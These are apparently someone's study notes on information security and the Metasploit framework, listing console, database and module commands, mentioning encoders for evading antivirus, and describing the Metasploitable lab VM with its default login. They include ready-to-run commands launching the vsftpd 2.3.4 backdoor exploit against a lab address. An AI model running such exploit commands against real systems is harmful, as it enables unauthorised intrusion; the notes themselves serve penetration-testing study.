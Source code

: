 




dh2048.pem # RSA key length = 2048 bit



tavis Ormandy -> google project zero

stuxnet virus
infosec === information security



vendor neutral

open courceware

OWASP: open web application security project
OWASP chapter in Egypt

OSCP
self marketing



- mentorship
# kung fu termnology: Explain any command line tools EX: metasploit kung fu, netcat kung fu, nmap kung fu, ...


----------------------------------------------------------------------------------------------------------------------------------
----------------------------------------------------------------------------------------------------------------------------------
[Metasploit](https://www.metasploit.com)
========================================

- Metasploit Community
- Metasploit Pro

written in Ruby by Rapid7 use postgresql as a database
> GUI:
- armitage
- cobalt strike

> Commands:

- msfconsole -> open metasploite
- DB_status -> connection between metasploite and exploitation database
- exit
- msfdb
    - msfdb init => initialize the database
    - msfdb start => start the database
    - msfdb stop => stop the database
    - msfdb delete => delete database and stop using it
    - msfdb reimit => delete and reinitialize the database
# databse.yml => databses (msf, msf_test) congifration file

- help
> core commands
* banner
* show
    - exploits
    - auxiliary
    - post
    - payloads -> reverse connection
    - encoders -> encode payload to bypassing the antivirus like shikata_ga_nai -> (the most well-known encoder)
    - nops

show:
- options
- targets
- anvanced


- search "vsftp"

- hosts
- vulns


-------------------------------------------------------------------------------------------
> module
- use auxiliary/scanner/discovery/arp_sweep
- info
- show options
- set <option_name> <value>
- unset <option_name>
- setg <option_name> <value>
- unsetg <option_name>
- show targets
- run
- back -> back from spasfic payload to entry point (msf=metasploit framework)
-------------------------------------------------------------------------------------------


msfconsole -x "use exploit/unix/ftp/vsftpd_234_backdoor;set rhost 192.168.1.9;run"

-x "" => excute
in file my_payload.rc:
use exploit/unix/ftp/vsftpd_234_backdoor
set rhost 192.168.1.9
run

msfconsole -r ./my_payload.rc


- C-z -> session paly in background
- sessions -l --list
- sessions -i <session_number>


- db_nmap => use nmap from metasploit


IDS: detact attacks and reports it for seystem admin

--------------------------------------------------------------------------------------------------------------------------------
[metasploitable](https://information.rapid7.com/download-metasploitable-2017.html)

linux Virtual Machine to Test Metasploit contains several intentional vulnerabilities for you to exploit. Metasploitable is essentially a penetration testing lab in a box, available as a VMware virtual machine (VMX)
created by the Rapid7 Metasploit team. (The Metasploitable login is “msfadmin”; the password is also “msfadmin”.)


Taking your first steps with Metasploit can be difficult – especially if you don’t want to conduct your first penetration test on your production network.







---------------------------------------------------------------------------------------------------------------------------------------------------------
mfsconsole
search <>
show options
set option <option_name> <value>
run === exploit